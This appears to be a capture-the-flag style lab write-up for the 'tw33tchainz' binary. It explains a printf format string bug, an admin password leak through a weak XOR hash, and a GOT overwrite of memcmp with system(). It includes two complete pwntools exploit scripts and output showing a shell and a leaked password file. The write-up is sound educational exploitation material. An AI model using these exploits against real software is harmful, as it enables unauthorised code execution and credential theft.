


>tweetchainz

For Project 1, `tweetchainz`, we are given a binary that allows us to create a username and password, send and print tweets, and login as an admin user among other functions.

After every action taken, the main menu is printed which looks like this.


[--------------------------+ Tw33tChainz +--------------------------]

                               .:+++/-`
                             `-/+++++++:.
                             -/++++++++++:
                              `//+++++++++:.
                              `-:++++++++++/.
                             --++//+++++++++:`
                         `:/+++:.. -/++++/-`
                       `-/+++/`      //-`
                     ./++/-.`
                  `:++/-.
                -/+/:.                            `..`
             .:++:.                  .`         `:///-.
          `-/+:.                     -//:-.    `////////.
        .:+:.                        `:++++/:.`/+++++++++-
       `:.                            `:/+++++++++++++++++:-.
                                       -++++++++++++++++++:-.
                                         -+++++++++++++++-
                                         `:+++++++++++++.
                                 `.:---::++++++++++++/-
                                    .:/+++++++++++/-.
                                        ``.....``
[--------------------------+ Tw33tChainz +--------------------------]
 1: Tw33t.                                   __
 2: View Chainz                             ( o>  -AAAAAAAAAAAAAAAA-
 4: Print Banner                            ///\
 5: Exit                                    \V_/_
[--------------------------+ Tw33tChainz +--------------------------]


Running checksec on the program reveals that it is only compiled with partial RELRO, leaving the **GOT** vulnerable to overwrite attacks.


gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial


## Vulnerabilty

The format string vulnerability can be found in the `print_menu` function.

We can see that if a non-admin user calls this function, the right branch will be taken, which uses a `fputs()` call to print a user provided tweet to stdout. 
However, if a user authenticates himself as an admin user, the left branch will be taken, which uses a `printf()` call to print the same tweet out.

The issue is that `printf()` always expects its first argument to be a format string. 
`fputs()` on the other hand, parses its first argument as a plain text string and does not interpret it as a format string, so it is not susceptible to the same vulnerability.  

Generally, instead of calling `printf(string);`, `printf("%s", string);` or `fputs(string);` should be used.   

So now that we have found the vulnerability, we need to see how we can authenticate ourselves as an admin user in order to trigger it.

## SecretPass Leak

When the binary is first ran, the user is asked to provide a username and a salt, which, along with a randomly generated admin password, `secretpass` are used to calculate a regular user password.  


Enter Username: 
AAAA
Enter Salt: 
BBBB
Generated Password:
0a19fb40dba8feab695c0a6c5ca77c40


If we take a closer look at the `hash()` function responsible for generating the regular user password, we can see something interesting.

The user password is generated byte-by-byte using the following algorithm.


userpass = (salt + secretpass)^username


So, if we are able to set the `salt` and `username` values to `NULL` or `0x0`, our generated password will be the same as the admin password.

*Note: Due to the way the way the username and salt are stored in the program, I was unable to set the username to `0x0` in my final script, so I had to xor the last 4-byte chunk of the user password with `0xa0000` but the idea is still the same.* 

## System Leak + Exploit

Since partial RELRO is enabled, we want to leverage the format string vulnerability in order to overwrite an entry in the **GOT**.

I chose to overwrite the `memcmp()` entry because it is called in the `maybe_admin()` function and we can control the data in the first argument. 


 printf("Enter password: ");
  while ( !fgets(&s, 0x11, stdin) )
    clear_stdin();
  if ( !memcmp(&s, &secretpass, 0x10u) )
  {
    result = puts("Authenticated!");
    is_admin = 1;
  }


We will want to overwrite the pointer in `memcmp@GOT` with the address of `system()`. 
Then, we will login as an admin user again, but enter `"/bin/sh"` as the password, which will then by passed in as the first argument to `system()`, thereby affording us a shell.

When I first did this exercise, I hardcoded in the address of `system()` in my exploit. However, to get practice, I wrote another exploit that leaked the address of `libc`, by using the format string vulnerability to leak a pointer into `libc` that was stored on the stack, and subtracting from it, its known offset to calculate the base address of `libc`. 
I then added the known offset of `system()` to that value to get the absolute value of `system()`.

***When using the format strings to overwrite the entry in `memcpy@GOT`, one issue that stumped me for a while was that I kept using width values that were too large, which gave me stdout and buffering issues. To overcome this problem, I had to write 1 byte at a time so that not too many bytes were being printed out.***

Putting everything together, here are my solutions to this exercise. 

## Solutions

#### Non-ASLR Bypass 

#!/usr/bin/env python

from pwn import *
import sys

def convertpass(userpass):
  targets=[]
  adminpass=""
  for i in range(0, 32, 8): # split userpass into 4 4-byte chunks
    if i == 24: # need to xor last chunk w/ user (0xa0000) 
      targets.append(int(userpass[i:i+8],16)^0xa0000)
    else:
      targets.append(int(userpass[i:i+8],16))
  for i in targets:
    adminpass+=str(p32(i,endian='little'))
  return adminpass

def exploit(r):
  ## GET ADMIN PASS 
  r.recvuntil("Username:")
  r.sendline("\x00"*14)
  r.recvuntil("Salt:")
  r.sendline("\x00"*16) 
  r.recvuntil("Password:\n")
  userpass = r.recvuntil("\n",16) 
  adminpass = convertpass(userpass)
  log.success("Admin password retrieved")
  r.recvuntil("Choice:")
  r.sendline("3")
  r.recvuntil("password:")
  r.sendline(adminpass)
  r.recvuntil("Authenticated!\n")
  log.success("Authenticated as admin!") 
  r.sendline("")
  
  ## OVERWRITE MEMCMP@GOT w/ SYSTEM
  r.recvuntil("Choice: ")
  r.sendline("6")
  r.sendline("")
  r.recvuntil("Choice: ")
  r.sendline("1")
  r.recvuntil(":")
  r.sendline("%x"*8)
  r.sendline("")
  r.recvuntil("Choice: ")
  r.sendline("1")
  r.recvuntil(":")
  # system     @ 0xb7e63190
  # memcmp@GOT @ 0x804d02c
  g = lambda x: str(int(x-5))
  r.sendline("B"+p32(0x804d02c)+"%139x%8$n"+"BB") #writes 0x90 to 0x804d02c
  r.sendline("")
  r.recvuntil("Choice:")
  r.sendline("1")
  r.recvuntil(":")
  r.sendline("B"+p32(0x804d02d)+"%44x%8$n"+"BBB") #writes 0x31 to 0x804d02d
  r.sendline("")
  r.recvuntil("Choice:")
  r.sendline("1")
  r.recvuntil(":")
  r.sendline("B"+p32(0x804d02e)+"%225x%8$n"+"BB") #writes 0xe6 to 0x804d02e
  r.sendline("")
  r.recvuntil("Choice:") 
  r.sendline("1")
  r.recvuntil(":")
  r.sendline("B"+p32(0x804d02f)+"%178x%8$n"+"BB") #writes 0xb7 to 0x804d02f
  r.sendline("")
  r.recvuntil("Choice: ")
  r.sendline("3")
  r.recvuntil(":")
  r.sendline("/bin/sh")
  
  r.interactive()
if __name__ == "__main__":
  log.info("For remote: %s HOST PORT" % sys.argv[0])
  if len(sys.argv) > 1:
    r = remote(sys.argv[1], int(sys.argv[2]))
    exploit(r)
  else:
    r = process(['/levels/project1/tw33tchainz'])
    print util.proc.pidof(r)
    pause()
    exploit(r)

 

#### ASLR Bypass

#!/usr/bin/env python

from pwn import *
import sys

def convertpass(userpass):
  targets=[]
  adminpass=""
  for i in range(0, 32, 8): # split userpass into 4 4-byte chunks
    if i == 24: # need to xor last chunk w/ user (0xa0000) 
      targets.append(int(userpass[i:i+8],16)^0xa0000)
    else:
      targets.append(int(userpass[i:i+8],16))
  for i in targets:
    adminpass+=str(p32(i,endian='little'))
  return adminpass

def exploit(r):
  ## GET ADMIN PASS 
  r.recvuntil("Username:")
  r.sendline("\x00"*14)
  r.recvuntil("Salt:")
  r.sendline("\x00"*16) 
  r.recvuntil("Password:\n")
  userpass = r.recvuntil("\n",16) 
  adminpass = convertpass(userpass)
  log.success("Admin password retrieved")
  r.recvuntil("Choice:")
  r.sendline("3")
  r.recvuntil("password:")
  r.sendline(adminpass)
  r.recvuntil("Authenticated!\n")
  log.success("Authenticated as admin!") 
  r.sendline("")  

  ## LEAK SYSTEM() 
  # system = libc+0x40190
  # leak = libc+0x1aa000
  r.recvuntil("Choice: ")
  r.sendline("6")
  r.sendline("")
  r.recvuntil("Choice: ")
  r.sendline("1")
  r.recvuntil(":")
  r.sendline("banana"+"%3$p"+"banana")
  r.sendline("")
  leak = int(r.recvuntil("Choice: ").split("banana")[1],16)
  libc = leak-0x1aa000
  log.success("Leaked libc base found @ "+str(hex(libc)))
  system = libc+0x40190
  log.success("Leaked system() found @ "+str(hex(system)))
  system = [system >> i & 0xff for i in (24,16,8,0)]
  
  ## OVERWRITE MEMCMP@GOT w/ SYSTEM
  r.sendline("1")
  r.recvuntil(":")
  # memcmp@GOT @ 0x804d02c
  g = lambda x: str(int(x-5))
  r.sendline("B"+p32(0x804d02c)+"%"+g(system[3])+"x%8$n"+"BB") # writes 0x90 to 0x804d02c
  r.sendline("")
  r.recvuntil("Choice:")
  r.sendline("1")
  r.recvuntil(":")
  r.sendline("B"+p32(0x804d02d)+"%"+g(system[2])+"x%8$n"+"BBB") # writes 0x31 to 0x804d02d
  r.sendline("")
  r.recvuntil("Choice:")
  r.sendline("1")
  r.recvuntil(":")
  r.sendline("B"+p32(0x804d02e)+"%"+g(system[1])+"x%8$n"+"BB") # writes 0xe6 to 0x804d02e
  r.sendline("")
  r.recvuntil("Choice:") 
  r.sendline("1")
  r.recvuntil(":")
  r.sendline("B"+p32(0x804d02f)+"%"+g(system[0])+"x%8$n"+"BB") # writes 0xb7 to 0x804d02f
  r.sendline("")
  log.success("memcpy@GOT overwritten!")
  r.recvuntil("Choice: ")
  r.sendline("3")       # authenticate as admin
  r.recvuntil(":")
  r.sendline("/bin/sh") # admin pass
  
  r.interactive()
if __name__ == "__main__":
  log.info("For remote: %s HOST PORT" % sys.argv[0])
  if len(sys.argv) > 1:
    r = remote(sys.argv[1], int(sys.argv[2]))
    exploit(r)
  else:
    r = process(['/levels/project1/tw33tchainz'])
    print util.proc.pidof(r)
    pause()
    exploit(r)



project1@warzone:/tmp/project1$ python solve.py 
[*] For remote: solve.py HOST PORT
[+] Starting program '/levels/project1/tw33tchainz': Done
[21658]
[*] Paused (press any to continue)
[+] Admin password retrieved
[+] Authenticated as admin!
[+] memcpy@GOT overwritten!
[*] Switching to interactive mode
 $ id
uid=1036(project1) gid=1037(project1) euid=1037(project1_priv) groups=1038(project1_priv),1001(gameuser),1037(project1)
$ cat /home/project1_priv/.pass
m0_tw33ts_m0_ch4inz_n0_m0n3y
$ 

